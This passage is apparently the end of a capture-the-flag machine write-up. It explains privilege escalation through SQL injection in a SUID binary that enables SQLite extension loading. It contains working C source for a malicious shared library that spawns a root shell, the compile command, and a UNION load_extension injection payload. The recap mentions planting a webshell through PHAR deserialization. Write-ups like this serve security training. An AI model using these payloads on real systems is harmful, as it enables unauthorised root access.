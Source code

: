 > The function constructs a SQL query using `snprintf()` with user input, creating a SQL injection vulnerability. Additionally, `sqlite3_enable_load_extension()` is called, allowing us to load external libraries.
{: .prompt-warning}

### SQL Injection Exploitation

The SQL injection allows us to use the `load_extension()` function to load a malicious shared library. We need to create a malicious `.so` file:

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

void __attribute__ ((constructor)) init (void) {
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```

Compile the malicious library:

```bash
gcc -shared -o evil.so -fPIC evil.c
```

### SQL Injection Payload

The original query selects four columns (id, username, email, active), so we need to match this structure in our UNION injection:

```sql
" UNION SELECT load_extension("/tmp/evil.so","init"), NULL, NULL, NULL; --
```

> Command breakdown:
- `UNION SELECT` : Combines our malicious query with the original
- `load_extension("/tmp/evil.so","init")` : Loads our malicious shared library
- `NULL, NULL, NULL` : Fills the remaining columns to match the original query structure
- `--` : Comments out the rest of the original query
{: .prompt-info}

![SQL Injection](file-20250929200926415.png)

When we execute this payload, the malicious shared library is loaded, and we get a root shell.

## Conclusion

### Quick Recap
- The machine was compromised through virtual host enumeration and API discovery
- An arbitrary file read vulnerability in the API allowed us to extract application source code
- PHAR deserialization was exploited to write a webshell to the server
- A SUID binary contained a SQL injection vulnerability that allowed loading malicious shared libraries
- The SQL injection was used to load a malicious `.so` file and achieve root access